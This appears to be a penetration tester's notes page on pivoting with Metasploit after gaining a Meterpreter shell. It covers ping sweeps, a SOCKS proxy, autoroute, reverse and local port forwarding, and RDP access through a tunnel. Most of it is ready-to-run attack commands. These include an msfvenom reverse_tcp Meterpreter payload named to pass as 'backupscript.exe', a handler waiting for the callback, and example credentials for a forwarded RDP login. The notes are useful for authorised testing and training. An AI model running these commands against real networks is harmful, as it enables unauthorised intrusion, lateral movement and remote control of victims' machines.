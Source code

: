After establishing a meterpreter shell we can execute the following:
#### Ping Sweep
```bash
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
#### Socks Proxy
```shell
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
msf6 auxiliary(server/socks_proxy) > jobs
```
We need to tell our socks_proxy module to route all the traffic via our Meterpreter session. We can use the `post/multi/manage/autoroute` module to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic
```shell
meterpreter > run autoroute -s 172.16.5.0/23
meterpreter > run autoroute -p       <-- View configuration
```
**OR**
```shell
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

#### [Reverse Port Forward](obsidian://open?vault=Penetration%20Testing&file=Root%2FPost%20Exploitation%2FPivoting%2FSSH%20%26%20SOCKS)
Used for when you want to get a reverse shell on an internal machine but that machine can't reach your attacking host network

This command forwards all connections on port `1234` running on the Compromised Webserver to our attack host on local port (`-l`) `8081`. We will also configure our listener to listen on port 8081 for a Windows shell.
```shell
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
meterpreter > bg
```

```shell
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run
```

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<CompromisedServer> -f exe -o backupscript.exe LPORT=1234
```
#### Local Port Forward
We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the `remote`network.

Everything we send to port `3300` locally(`-l`), forward it to port (`-p`) `3389` on remote (`-r`) host `172.16.5.19`
```bash
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
So now
```bash
xfreerdp3 /v:localhost:3300 /u:victor /p:pass@123
```